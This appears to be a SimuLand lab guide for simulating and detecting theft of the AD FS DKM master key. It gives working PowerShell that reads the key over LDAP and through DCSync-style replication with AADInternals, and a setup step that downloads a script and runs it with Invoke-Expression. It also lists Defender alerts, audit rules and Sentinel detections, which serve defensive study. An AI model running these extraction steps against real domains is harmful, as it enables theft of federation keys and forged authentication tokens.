


# Export Active Directory Federation Services (AD FS) DKM Master Key from Domain Controller

AD FS certificates are encrypted using Distributed Key Manager (DKM) APIs and the DKM master key used to decrypt them is stored in the domain controller. When the primary AD FS farm is configured, the AD FS DKM container is created in the domain controller and the DKM master key is stored as an attribute of an AD contact object located inside of the container.

The path of the AD FS DKM container in the domain controller might vary, but it can be obtained from the `AD FS configuration settings`. After getting the AD path to the container, a threat actor can directly access the AD contact object and read the AD FS DKM master key value. In addition, one could use Active directory replication services (DRS) to indirectly access and retrieve/sync the AD contact object that holds the master key.

## Simulate & Detect

**[Direct Access Variations](#direct-access-variations):**

* [Access AD Contact Object via LDAP](#access-ad-contact-object-via-ldap)
    * [Detect LDAP Query with ThumbnailPhoto Property in Filter](#detect-ldap-query-with-thumbnailphoto-property-in-filter)
    * [Detect LDAP Query with Indirect Access to ThumbnailPhoto Property](#detect-ldap-query-with-indirect-access-to-thumbnailphoto-property)
    * [Detect Access to AD Object](#detect-access-to-ad-object)

**[Indirect Access Variations](#indirect-access-variations)**

* [Retrieve AD Contact Object via Directory Replication Services](#retrieve-ad-contact-object-via-directory-replication-services)
    * [Detect the use of Directory Replication Services to Retrieve AD Contact Object](#detect-the-use-of-directory-replication-services-to-retrieve-ad-contact-object)

## Direct Access Variations

## Access AD Contact Object via LDAP

**Preconditions**
* Endpoint: ADFS01 or WORKSTATION6
    * We can use the same PowerShell session on one of the endpoints where we [got the path of the AD FS DKM container](getADFSDKMContainerADPath.md) from to go through the simulation steps.
    * Authorization: AD FS service account
    * AD FS DKM container path:
        * Use the output from the step where we [got the path of the AD FS DKM container](getADFSDKMContainerADPath.md) and pass it to the PowerShell snippets below as the variable `$base`.
* Endpoint: Domain Controller (DC01_
    * Authorization: AD FS service account
    * Services Running: Lightweight Directory Access Protocol (LDAP)
    * Ports Open: 389

We can use LDAP and create a query filtering on specific objects with the `ThumbnailPhoto` attribute. We can then read the encryption key from the `ThumbnailPhoto` attribute.

```PowerShell
$ADSearch = [System.DirectoryServices.DirectorySearcher]::new([System.DirectoryServices.DirectoryEntry]::new($base))
$ADSearch.PropertiesToLoad.Add("thumbnailphoto") | Out-Null
$ADSearch.Filter='(&(objectclass=contact)(!name=CryptoPolicy)(ThumbnailPhoto=*))'
$ADUser=$ADSearch.FindOne()
$key=[byte[]]$aduser.Properties["thumbnailphoto"][0]
[System.BitConverter]::ToString($key)
```


One could also filter on the `CryptoPolicy` contact object inside of the AD FS DKM container and get the value of its `DisplayName` attribute. This attribute refers to the `l` attribute of the right AD contact object that contains the DKM master key value. The DKM key is stored in its `ThumbnailPhoto` attribute.

```PowerShell
$ADSearch = [System.DirectoryServices.DirectorySearcher]::new([System.DirectoryServices.DirectoryEntry]::new($base))
$ADSearch.Filter = '(name=CryptoPolicy)'
$aduser = $ADSearch.FindOne()
$keyObjectGuid = $ADUser.Properties["displayName"]
$ADSearch.PropertiesToLoad.Add("thumbnailphoto") | Out-Null
$ADSearch.Filter="(l=$keyObjectGuid)"
$aduser=$ADSearch.FindOne() 
$key=[byte[]]$aduser.Properties["thumbnailphoto"][0]
[System.BitConverter]::ToString($key)
```


## Detect LDAP Query with `ThumbnailPhoto` Property in Filter

### Microsoft Defender for Identity Alerts

**Active Directory attributes Reconnaissance using LDAP**

When a threat actor sets the property `ThumbnailPhoto` as a filter in the LDAP search query, the MDI sensor in the domain controller triggers an alert of type `Active Directory attributes Reconnaissance using LDAP`.
1.	Navigate to [Microsoft 365 Security Center](https://security.microsoft.com/).
2.	Go to `More Resources` and click on [Azure Advanced Threat Protection](https://simuland.atp.azure.com/).


### Microsoft Cloud App Security Alerts

**Active Directory attributes Reconnaissance using LDAP**

You can also see the same alert in the Microsoft Cloud Application Security (MCAS) portal. The MCAS portal is considered the new investigation experience for MDI.
1.	Navigate to [Microsoft 365 Security Center](https://security.microsoft.com/)
2.	Go to “More Resources” and click on “[Microsoft Cloud App Security](https://portal.cloudappsecurity.com/)”.


### Microsoft Defender for Endpoint Alerts

**ADFS private key extraction attempt**

Microsoft Defender for Endpoint sensors also trigger an alert named `ADFS private key extraction attempt` when a threat actor sets the property `ThumbnailPhoto` as a filter in the LDAP search query.
1.	Navigate to [Microsoft 365 Security Center](https://security.microsoft.com/).
2.	Go to `More Resources` and click on [Microsoft Defender Security Center](https://login.microsoftonline.com/).
3.	Go to `Incidents`.


## Detect LDAP Query with Indirect Access to `ThumbnailPhoto` Property

### Microsoft Defender for Endpoint Alerts

**ADFS private key extraction attempt**

Microsoft Defender for Endpoint sensors also trigger an alert named `ADFS private key extraction attempt` when a threat actor accesses the contact AD object holding the DKM key, but without specifying the `ThumbnailPhoto` attribute as part of the filter in the LDAP search query.


## Detect Access to AD Object

### Azure Sentinel Detection Rules

**AD FS DKM Master Key Export**

We can also audit the access request to the AD FS DKM contact object in the domain controller. This audit rule can be enabled by adding an Access Control Entry (ACE) to the System Access Control List (SACL) of the AD FS DKM contact object in the domain controller. [A SACL is a type of access control list to log attempts to access a secured object](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-control-lists).

**Create Audit Rule**

1.	Connect to the Domain Controller (DC01) via the [Azure Bastion service](../../2_deploy/_helper_docs/connectAzVmAzBastion.md) as an Administrator.
2.	Open PowerShell console as an Administrator.
4.	Get the path of the AD FS DKM container and use it to obtain the `GUID` of the AD FS DKM contact object holding the AD FS DKM master key (Encryption key).

```PowerShell
$AdfsDKMPath = "LDAP://CN=596f0e13-7a4b-49a1-a106-0cbcba66b065,CN=ADFS,CN=Microsoft,CN=Program Data,DC=simulandlabs,DC=com"
$ADSISearcher = [ADSISearcher]'(&(objectclass=contact)(!name=CryptoPolicy)(ThumbnailPhoto=*))'
$ADSISearcher.SearchRoot = [ADSI]"$AdfsDKMPath"
$results = $ADSISearcher.FindOne()
$results.Path
```


5.	Import Active Directory Module:

```PowerShell
Import-Module ActiveDirectory
```

6.	Import the project [Set-AuditRule](https://github.com/OTRF/Set-AuditRule) in GitHub as a PowerShell module to automate the process.

```PowerShell
$uri = 'https://raw.githubusercontent.com/OTRF/Set-AuditRule/master/Set-AuditRule.ps1' 
$RemoteFunction = Invoke-WebRequest $uri –UseBasicParsing 
Invoke-Expression $($RemoteFunction.Content)
```

7.	Create an `Audit` rule to audit any `Generic Read` requests to that AD object.

```PowerShell
$ADObjectPath = 'CN=8e8a005d-e8eb-4d71-8bfc-de5abf98d5b4,CN=596f0e13-7a4b-49a1-a106-0cbcba66b065,CN=ADFS,CN=Microsoft,CN=Program Data,DC=simulandlabs,DC=com'

Set-AuditRule -AdObjectPath "AD:\$ADObjectPath" -WellKnownSidType WorldSid -Rights GenericRead -InheritanceFlags None -AuditFlags Success -verbose
```


Once the audit rule is enabled, run any of the previous LDAP search queries from the previous section to trigger the audit rule. You can run the queries from the `ADFS01` server. You will see `Windows Security Event ID 4662` in the Domain Controller:


Something to remember is that the XML representation of the security event provides the GUID of the AD FS DKM contact object and not the explicit path to the AD object. In our lab environment this `Object Name value` was `9736f74f-fd37-4b02-80e8-8120a72ad6c2`.



Use the following detection rule to explore this activity:

* [ADFS DKM Master Key Export](https://github.com/Azure/Azure-Sentinel/blob/master/Detections/MultipleDataSources/ADFS-DKM-MasterKey-Export.yaml)

## Indirect Access Variations

### Retrieve AD Contact Object via Directory Replication Services

**Preconditions**
* Endpoint: Workstation (WORKSTATION6)
    * Authorization: Domain Administrator
    * Libraries Installed: [AADInternals](https://github.com/Gerenios/AADInternals)
    * AD FS DKM container path:
        * Use the output from the step where we [got the path of the AD FS DKM container](getADFSDKMContainerADPath.md) and pass it to the PowerShell snippet below as the variable `$base`.
* Endpoint: Domain Controller (DC01)
    * Authorization: Domain Administrator
    * Services Running: Active Directory Replication

**Active Directory Replication Services with AADInternals**

Rather than requesting direct access to the contact AD object containing the DKM key, a threat actor could simply leverage [Active Directory Replication services (DRS)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/06205d97-30da-4fdc-a276-3fd831b272e0#:~:text=The%20Directory%20Replication%20Service%20%28DRS%29%20Remote%20Protocol%20is,name%20of%20each%20dsaop%20method%20begins%20with%20%22IDL_DSA%22.) and retrieve the AD object. This approach bypasses detections that rely on audit rules monitoring for any direct access attempt to the AD object. However, this approach requires the user to have the right elevated privileges to perform directory replication actions in a domain. 

1. Go back to the domain-joined endpoint (`WORKSTATION6`) where you authenticated previously as a domain administrator (`pgustavo`) to perform a DCSync technique.
2. Open PowerShell as Administrator
3. Get the path of the AD FS DKM container and use it to obtain the `GUID` of the AD FS DKM contact object.

```PowerShell
$AdfsDKMPath = "LDAP://CN=596f0e13-7a4b-49a1-a106-0cbcba66b065,CN=ADFS,CN=Microsoft,CN=Program Data,DC=simulandlabs,DC=com"
$ADSISearcher = [ADSISearcher]'(&(objectclass=contact)(!name=CryptoPolicy)(ThumbnailPhoto=*))'
$ADSISearcher.SearchRoot = [ADSI]"$AdfsDKMPath"
$results = $ADSISearcher.FindOne()
$AdfsContactObjectGuid = ([guid]($results.Properties).objectguid[0]).guid
$AdfsContactObjectGuid
```


6. Export the AD FS DKM master key value via directory replication services.

```PowerShell
$ObjectGuid = '9736f74f-fd37-4b02-80e8-8120a72ad6c2' 
$DC = 'DC01.simulandlabs.com' 
$cred = Get-Credential 
$Key = Export-AADIntADFSEncryptionKey -Server $DC -Credentials $cred -ObjectGuid $ObjectGuid 
[System.BitConverter]::ToString([byte[]]$key)
```



## Detect the use of Directory Replication Services to Retrieve AD Contact Object

### Azure Sentinel Detection Rules

**Non-DC Active Directory Replication**

The following access rights/permissions are needed for the replication request according to the domain functional level:

| Control access right symbol    | Identifying GUID used in ACE |
| ------------------------------ | ---------------------------- |
| DS-Replication-Get-Changes     | 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2 |
| DS-Replication-Get-Changes-All | 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2 |
| DS-Replication-Get-Changes-In-Filtered-Set | 89e95b76-444d-4c62-991a-0facbeda640c |

We can see those GUID values in the `Properties` values of Windows Security events with ID 4662.


We can also join the Windows Security event 4662 with 4624 on the LogonId value to add authentication context to the replication activity and get the `IP Address` of the workstation that performed the action.


Use the following detection rule to explore this activity:

* [ADFS DKM Master Key Export](https://github.com/Azure/Azure-Sentinel/blob/8c53ceaf7473378380e907b1aaa24604efae3651/Detections/SecurityEvent/NonDCActiveDirectoryReplication.yaml)

### Microsoft Defender for Identity

**Suspected DCSync attack (replication of directory services)** 

The Microsoft Defender for Identity sensor installed on the domain controller triggers an alert when this behavior occurs. MDI detects non-domain controllers using Directory Replication Services (DRS) to sync information from the domain controller. Something to keep an eye on is the number of replication requests in the alert information. It went up from 4 to 10. Remember that the same alert also shows up in MCAS.

1.  Navigate to [Microsoft 365 Security Center](https://security.microsoft.com/).
2.  Go to `More Resources` and click on `Azure Advanced Threat Protection`. 


## Output

Use the variable `$key` in the next step where we [decrypt AD FS certificates](decryptADFSCertificates.md).

## References
* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)